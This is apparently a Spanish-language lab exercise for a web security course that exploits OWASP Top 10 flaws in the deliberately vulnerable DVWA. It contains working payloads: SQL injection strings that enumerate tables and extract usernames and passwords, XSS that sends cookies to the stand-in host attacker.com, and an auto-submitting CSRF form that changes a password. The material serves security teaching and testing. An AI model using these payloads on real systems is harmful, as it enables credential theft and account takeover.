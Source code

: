 ### Laboratorio 2: Explotación de Vulnerabilidades OWASP Top 10

#### Objetivo
Identificar y explotar vulnerabilidades del OWASP Top 10 en un entorno controlado.

#### Materiales
- DVWA (Damn Vulnerable Web Application)
- Burp Suite Community Edition
- OWASP ZAP
- Navegador web con herramientas de desarrollo

#### Actividades

**Actividad 2.1: SQL Injection**
```sql
-- Identificar vulnerabilidades SQL Injection
-- URL: http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit

-- Prueba de inyección básica
1' OR '1'='1

-- Enumeración de base de datos
1' UNION SELECT null,concat(table_name) FROM information_schema.tables WHERE table_schema=database()-- 

-- Extracción de datos
1' UNION SELECT null,concat(user,':',password) FROM users-- 
```

**Actividad 2.2: Cross-Site Scripting (XSS)**
```html
<!-- XSS Reflejado -->
<!-- Input: <script>alert('XSS')</script> -->

<!-- XSS Almacenado -->
<script>
document.location = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>

<!-- XSS basado en DOM -->
<script>
var hash = location.hash.substring(1);
document.getElementById('content').innerHTML = hash;
</script>
<!-- URL: http://vulnerable.com/page.html#<script>alert('DOM XSS')</script> -->
```

**Actividad 2.3: CSRF Attack**
```html
<!-- CSRF para cambio de contraseña -->
<form action="http://vulnerable-site.com/change-password" method="POST">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
    <input type="submit" value="Click here for prize!">
</form>
<script>
document.forms[0].submit();
</script>
```
